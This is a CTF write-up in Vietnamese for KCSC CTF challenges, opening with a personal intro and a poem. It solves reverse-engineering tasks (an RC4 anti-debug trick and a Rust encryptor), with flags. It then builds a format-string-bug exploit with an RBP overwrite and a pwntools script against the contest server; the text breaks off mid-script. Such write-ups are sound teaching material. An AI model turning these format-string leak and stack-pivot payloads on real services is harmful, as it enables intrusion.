<style>
img {
    box-shadow: rgba(0, 0, 0, 0.35) 0px 5px 15px;
    border-radius: 6px;
    display: block; 
    margin: 15px auto;
}
</style>

Sau khi kết thúc thi cuối kỳ môn Pháp Luật Đại Cương, mình được nghỉ hơn 10 ngày để tiếp tục học giai đoạn mới. Đề CTF của KMA hay UIT luôn làm mình hứng thú, đặc biệt là những bài reverse. 

Thời gian cứ dần trôi, mình lại lặng lẽ lôi vài bài của giải KCSC CTF ra làm để khỏa lấp đi những trống vắng trong trái tim. Trời mùa thu Hà Nội thật đẹp, nó sẽ đẹp hơn rất nhiều nếu như anh có em :fallen_leaf:

> **Em** nhẹ bước chân qua bao ngọt ngào bao nhiêu cố gắng\
**Có** hay không những bước thềm trong con tim em cần một khoảng rộng\
**Biết** lúc nào anh có thể lại được gặp em một lần nữa\
**Là** khi đó anh cảm nhận mùi hương tàn cánh hoa sữa\
**Anh** yêu em thật nồng nàn như một định lí đã muôn thuở\
**Yêu** một người có lẽ phải học thêm nhiều điều\
**Em** là mảnh ghép cuối cùng anh còn thiếu\
**Nhiều** đêm dằn vặt tự gắng mình không hiểu\
**Lắm** những yêu thương trôi qua trong em nào thật nhiều\
**Không** lí do nào đã khiến em cùng người đó

## rev/f@k3


* 16 solves / 356 pts 
* **Given files:** [re_fk3.exe](https://drive.google.com/file/d/1zhSwPEXJbrxzKFdU_z6PaiwfNyPBWHU6/view?usp=sharing)


### 0x01 Anti Debug

<style>
img {
    box-shadow: rgba(0, 0, 0, 0.35) 0px 5px 15px;
    border-radius: 6px;
    display: block; 
    margin-left: auto; 
    margin-right: auto;
}
</style>

Flow chương trình rất ngắn gọn. Mảng `Str[]` sẽ được decrypt bởi thuật toán RC4 với `key` = `F@**!`. Sau đó chương trình so sánh `input` nhập vào với `output` là kết quả của giải mã mảng trên. 




Bật debug lên và check `output`, ta nhận được một fake flag 



Mình xref `key` thì thấy nó còn được xuất hiện trong hàm `sub_7FF7423313D0`
```c
__int64 sub_7FF7423313D0()
{
  if ( !*(_BYTE *)(qword_7FF742335670 + 2) )
  {
    key[1] |= 1u;
    key[2] |= 1u;
    key[3] |= 1u;
    key[4] |= 1u;
  }
  return 0i64;
}
```

Vậy khả năng cao đây là hàm anti-debug. Nếu chúng ta debug thì sẽ nhận được key fake, mình đặt breakpoint tại hàm này, sửa lại giá trị cho thanh ghi `ZF` và thu được key chính xác là `FA++!`

### 0x02 Changed function

Sau khi có key đúng thì kết quả decrypt vẫn sai. Có một vấn đề là dù `input` của mình khác nhau nhưng chương trình vẫn luôn in ra `Correct!`. Tới đây thì mình đoán được luôn hàm `lstrcmpA` đã bị thay đổi. 

> Nếu các bạn chơi giải KCSC/KMA đủ nhiều sẽ biết kỹ thuật này thường xuyên được sử dụng. 

Đi sâu vào hàm `lstrcmpA`, ta thấy flag được tạo ra bằng cách xor `output` với một mảng `Str[]` khác và luôn return 0. Đây cũng là lý do tại sao chương trình luôn in ra `Correct!`. 



> **FLAG: KCSC{1t_co5ld_be_right7_fla9_here_^.^@@}**

## rev/RE x Rust


* 5 solves / 489 pts / by JohnathanHuuTri
* **Given files:** 
  * [flag.enc](https://drive.google.com/file/d/1XrubS7036nnVEfOE1Qlxyv1WEDwLPkIa/view?usp=sharing)
  * [rexrust](https://drive.google.com/file/d/189myHIakMSZXIx1tATi-y8L4o2qwk2l4/view?usp=sharing)
* **Description:** Challenge name tell everything!


### 0x01 Overview

Quan sát tổng quan, chương trình đọc dữ liệu từ file `flag.txt`, thực hiện encrypt qua 4 phase và ghi dữ liệu vào file `flag.enc`. 



### 0x2 Analyze Phase 1 

Ở phase 1 này, sau khi debug và quan sát đầu ra, ta biết được hàm này đảo ngược chuỗi ban đầu.

```c
__int64 __fastcall revsrust::phase1::hff4818a749ae18af(char *input, unsigned __int64 input_length)
{
  [...]

  v12 = input;
  v13 = input_length;
  v10[0] = _$LT$I$u20$as$u20$core..iter..traits..collect..IntoIterator$GT$::into_iter::h8fa0f7e2a7257375();
  v10[1] = v2;
  while ( 1 )
  {
    result = core::iter::range::_$LT$impl$u20$core..iter..traits..iterator..Iterator$u20$for$u20$core..ops..range..Range$LT$A$GT$$GT$::next::h9b7c30fb7e58cb7b(v10);
    v11 = v4;
    v10[2] = result;
    if ( !result )
      break;
    v9 = v11;
    v14 = v11;
    if ( v11 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    v7 = input[v11];
    v15 = v7;
    v8 = input_length - 1;
    if ( !input_length )
      core::panicking::panic::hee69a8315e4031d6();
    v6 = v8 - v11;
    if ( v8 < v11 )
      core::panicking::panic::hee69a8315e4031d6();
    if ( v6 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    if ( v11 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    input[v11] = input[v6];
    v5 = input_length - 1 - v9;
    if ( input_length - 1 < v9 )
      core::panicking::panic::hee69a8315e4031d6();
    if ( v5 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    input[v5] = v7;
  }
  return result;
}
``` 

### 0x03 Analyze Phase 2 

Ở phase này, chương trình hoán vị 4 bit sau của byte này với 4 bit sau của byte kia. Ví dụ `0x12`, `0x34` sẽ thành `0x14`, `0x32`. 

```c
unsigned __int64 __fastcall revsrust::phase2::hf6a223748e1b24a0(char *rev_input, unsigned __int64 input_length)
{
  unsigned __int64 result; // rax
  unsigned __int64 v3; // [rsp+8h] [rbp-80h]
  char v4; // [rsp+17h] [rbp-71h]
  unsigned __int64 v5; // [rsp+38h] [rbp-50h]
  unsigned __int64 v6; // [rsp+48h] [rbp-40h]
  unsigned __int64 i; // [rsp+68h] [rbp-20h]

  for ( i = 0LL; ; i += 2LL )
  {
    result = input_length;
    if ( i >= input_length )
      break;
    v6 = i + 1;
    if ( i == -1LL )
      core::panicking::panic::hee69a8315e4031d6();
    if ( v6 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    v5 = i + 1;
    if ( i + 1 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    if ( i >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    v4 = rev_input[i] & 0xF | rev_input[v5] & 0xF0;
    if ( i >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    rev_input[i] = rev_input[v6] & 0xF | rev_input[i] & 0xF0;
    v3 = i + 1;
    if ( i + 1 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    rev_input[v3] = v4;
    if ( i >= 18446744073709551614uLL )
      core::panicking::panic::hee69a8315e4031d6();
  }
  return result;
}
```

Phase này được reimplement như sau 
```python
for i in range(0, len(flag), 2):
    tmp = flag[i] & 0xF | flag[i+1] & 0xF0
    flag[i], flag[i+1] = flag[i+1] & 0xF | flag[i] & 0xF0, tmp
```
Vì chúng chỉ swap giá trị giữa 2 byte cho nhau. Vậy nên chúng ta hoàn toàn có thể lấy luôn hàm này để lấy lại dữ liệu ban đầu. 

### 0x04 Analyze Phase 3 

```c
__int64 __fastcall revsrust::phase3::h3b700fce28ff291d(char *input, unsigned __int64 input_length)
{
  [...]

  v16 = input;
  v17 = input_length;
  if ( input_length < 2 )
    core::panicking::panic::hee69a8315e4031d6();
  v14[0] = _$LT$I$u20$as$u20$core..iter..traits..collect..IntoIterator$GT$::into_iter::h8fa0f7e2a7257375();
  v14[1] = v2;
  while ( 1 )
  {
    result = core::iter::range::_$LT$impl$u20$core..iter..traits..iterator..Iterator$u20$for$u20$core..ops..range..Range$LT$A$GT$$GT$::next::h9b7c30fb7e58cb7b(v14);
    idx = v4;
    v14[2] = result;
    if ( !result )
      break;
    v12 = idx;
    v18 = idx;
    if ( idx >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    v10 = input[idx];
    v11 = idx + 2;
    if ( idx >= 0xFFFFFFFFFFFFFFFELL )
      core::panicking::panic::hee69a8315e4031d6();
    if ( v11 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    v5 = input[v11];
    v21 = input[idx];
    v22 = v5;
    if ( idx >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    input[idx] = v10 - v5;
    v9 = v12 + 2;
    if ( __CFADD__(v12, 2LL) )
      core::panicking::panic::hee69a8315e4031d6();
    if ( v9 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    v8 = input[v9];
    if ( v12 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    v6 = input[v12];
    v19 = input[v9];
    v20 = v6;
    v7 = v12 + 2;
    if ( v12 + 2 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    input[v7] = v8 - v6;
  }
  return result;
}
```

Phase 3 được reimplement như sau 
```python
for i in range(len(flag) - 2):
    flag[i] = (flag[i] - flag[i+2]) & 0xFF
    flag[i+2] = (flag[i+2] - flag[i]) & 0xFF 
```
Chúng ta dễ dàng dựng lại hàm `rev_phase3` là 
```python
def rev_phase3(flag):
    for i in range(len(flag) - 3, -1, -1):
        flag[i+2] = (flag[i+2] + flag[i]) & 0xFF
        flag[i] = (flag[i] + flag[i+2]) & 0xFF
    return flag
```

### 0x05 Analyze Phase 4

Ở phase 4 này, chương trình tạo 1 số random 4 byte và xor tất cả các byte với `input`. Nếu chú ý, ta sẽ biết được các byte xor với nhau thì kết quả thu được luôn nằm trong khoảng [0, 255]. Từ đây, ta dễ dàng xây dựng hàm `rev_phase4` bằng brute-force. 

```c
__int64 __fastcall revsrust::phase4::h4b371456b6af0137(BYTE *input, unsigned __int64 input_length)
{
  [...]

  v10 = input;
  v11 = input_length;
  v6[0] = rand::rngs::thread::thread_rng::h616f5a4f3d25fa48();
  v5 = rand::rng::Rng::gen::h3adc539b43e4e5da(v6);
  v12 = v5;
  v6[1] = 0LL;
  v6[2] = input_length;
  v7[0] = _$LT$I$u20$as$u20$core..iter..traits..collect..IntoIterator$GT$::into_iter::h8fa0f7e2a7257375();
  v7[1] = v2;
  while ( 1 )
  {
    v8 = core::iter::range::_$LT$impl$u20$core..iter..traits..iterator..Iterator$u20$for$u20$core..ops..range..Range$LT$A$GT$$GT$::next::h9b7c30fb7e58cb7b(v7);
    v9 = v3;
    if ( !v8 )
      break;
    v13 = v9;
    if ( v9 >= input_length )
      core::panicking::panic_bounds_check::h11601ba3567ad740();
    input[v9] ^= HIBYTE(v5) ^ BYTE2(v5) ^ BYTE1(v5) ^ v5;
  }
  return core::ptr::drop_in_place$LT$rand..rngs..thread..ThreadRng$GT$::h46c61e1ef1922a5a(v6);
}
```

Phase 4 được reimplement như sau 
```python
for i in range(len(flag)):
    LOBYTE  = (rd >> 0) & 0xFF
    BYTE1   = (rd >> 8) & 0xFF
    BYTE2   = (rd >> 16) & 0xFF 
    HIBYTE  = (rd >> 24) & 0xFF 
    flag[i] ^= (BYTE1 ^ BYTE2 ^ HIBYTE ^ LOBYTE)
```

Dễ dàng build được hàm `rev_phase4` 
```python
def rev_phase4(flag, rd):
    for i in range(len(flag)):
        flag[i] ^= rd
    return flag
``` 

Ghép các phần lại với nhau, script hoàn chỉnh của chúng ta là 
```python
def phase1(flag): 
    return flag[::-1] 

def phase2(flag): 
    for i in range(0, len(flag), 2):
        tmp = flag[i] & 0xF | flag[i+1] & 0xF0
        flag[i], flag[i+1] = flag[i+1] & 0xF | flag[i] & 0xF0, tmp
    return flag

def rev_phase3(flag):
    for i in range(len(flag) - 3, -1, -1):
        flag[i+2] = (flag[i+2] + flag[i]) & 0xFF
        flag[i] = (flag[i] + flag[i+2]) & 0xFF
    return flag

def rev_phase4(flag, rd):
    for i in range(len(flag)):
        flag[i] ^= rd
    return flag

for i in range(0, 0xff):
    f = open("flag.enc", "rb")
    data = list(f.read()) 
    res = phase1(phase2(rev_phase3(rev_phase4(data, i))))
    print("".join([chr(i) for i in res]))
```

Nhìn sơ qua các kết quả thu được, ta có được đáp án chính xác.

> **FLAG: KCSC{r3v3rs3_rust_1s_funny_4nd_34sy_227da29931351}**

## rev/behind the scenes


* 0 solve / 500 pts / by ndt
* **Given files:** [chall.zip](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/Ec7HNS1M-OdJqmqPCLDivXsB--RiV_rQ9O4pT-fWe_E1kw?e=52AtSQ)
* **Description:** Don't miss anything. 


## pwn/KCSBanking


* 10 solve / 464 pts / by JohnathanHuuTri
* **Given files:** [banking.zip]()
* **Description:** Our club KCSC has created a new bank called KCSBank. It's still in beta but we cannot find out any bugs, please help us!\
`nc 103.163.24.78 10002`


### 0x01 Overview

Chương trình có 2 lựa chọn chính:
- general_action 
- account_action 

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int main_status; // [rsp+Ch] [rbp-4h]

  main_status = 0;
  init(argc, argv, envp);
  puts("Welcome to KCSBank");
  while ( !main_status )
  {
    main_status = general_action();
    if ( !main_status )
      account_action();
  }
  return 0;
}
```

Với lựa chọn `general_action`, chương trình có 3 chức năng: 
- login
- register
- exit

Trong hàm `register`, fullname được chứa ở `ptr_fullname`. Khi xref, ta thấy nó còn được xuất hiện ở hàm `info`.  



Với lựa chọn `account_action`, chương trình có 4 chức năng: 
- deposit
- withdraw
- info
- logout 

Xem qua một lượt các hàm, ta thấy hàm `info` có Format String Bug. 
```c
int info()
{
  printf(ptr_fullname);                         // fsb
  return printf("Money: %u\n", total_money);
}
```

### 0x02 Format String Bug 

Đề bài cho chúng ta Dockerfile, hướng tiếp cận của mình là tận dụng bug trên để Return To Libc. 

Mình định nghĩa một số hàm để thao tác nhanh với chương trình như sau
```python
def login(username, password): 
    sla(b"> ", b"1")
    sla(b"Username: ", username.encode("utf8"))
    sla(b"Password: ", str(password).encode("utf8"))

def register(username, password, fullname): 
    sla(b"> ", b"2")
    sla(b"New username: ", username.encode("utf8"))
    sla(b"New password: ", str(password).encode("utf8"))
    sla(b"Your full name: ", fullname)

def info():
    sla(b"> ", b"3")

def logout(feedback): 
    sla(b"> ", b"4")
    sla(b"Please leave a feedback: ", feedback)
```

#### Leak stack & libc 
Bước đầu tiên, chúng ta sẽ đi tạo một account với fullname là `payload` nhằm leak được các giá trị như stack, libc. 

```python
payload = b"%6$p|%29$p|"
register("hacker", 123, payload)
login("hacker", 123) 
info()

data_leak  = rl().strip().split(b"|")
stack_leak = int(data_leak[0], 16)
libc_leak  = int(data_leak[1], 16) 
libc_base  = libc_leak - libc.symbols["puts"] - 0x01fa

log.info(f"stack leak = {hex(stack_leak)}")
log.info(f"libc leak = {hex(libc_leak)}")
log.info(f"libc base = {hex(libc_base)}")
```

### 0x03 Bug Stack Buffer Overflow 

Về cơ bản, chương trình không có bug BOF. Nhưng chúng ta đang có một số thứ để có thể trigger được bug này. 
- Chức năng `logout` cho nhập feedback có kích thước tối đa 256 byte. 
- FSB cho phép thay đổi giá trị của thanh ghi `RBP`. 

Khi end chương trình, `RSP` sẽ nằm ở vị trí `0x00007fffffffdc48`, vậy `RBP` sẽ là `0x00007fffffffdc40`. 



Với FSB đầu tiên, ta thấy `RBP` phía trên nằm ngay ở ô stack đầu tiên. Ta hoàn toàn thay đổi được giá trị cho nó. 



Feedback của chúng ta được nhập bắt đầu từ `0x00007fffffffdb10`. Vậy mình sẽ đưa `RBP` về `0x00007fffffffdb50` để thử trigger xem. 

Lưu ý, giá trị `stack_leak` mình có được ở phía trên là `0x00007fffffffdc20`. 

```python
fake_rbp = stack_leak - 0xd0 
log.info(f"fake rbp = {hex(fake_rbp)}")

payload = f"%{fake_rbp & 0xFFFF}c%6$hn"
register("hacker", 123, payload)
login("hacker", 123) 
info()
```

Stack layout sau khi mình đổi `RBP` và nhập feedback 



Trigger thành công với input

```python
b"a" * 72 + b"1234567\n"
```



### 0x04 Final script

Okay, việc chúng ta bây giờ chỉ là đi build ropchain và lấy shell. 
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./banking_patched") 
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.update(os = "linux", arch = "amd64", log_level = "debug", terminal = "cmd.exe /c start wsl".split(), binary = exe)

# p = process(exe.path)
p = remote("103.163.24.78", 10002)

sl  = p.sendline
sa  = p.sendafter
sla = p.sendlineafter
rl  = p.recvline
ru  = p.recvuntil

def debug():
    gdb.attach(p, gdbscript = """
        b *info+23
        b *main+0x54
        continue
    """)
    pause() 

def login(username, password): 
    sla(b"> ", b"1")
    sla(b"Username: ", username.encode("utf8"))
    sla(b"Password: ", str(password).encode("utf8"))

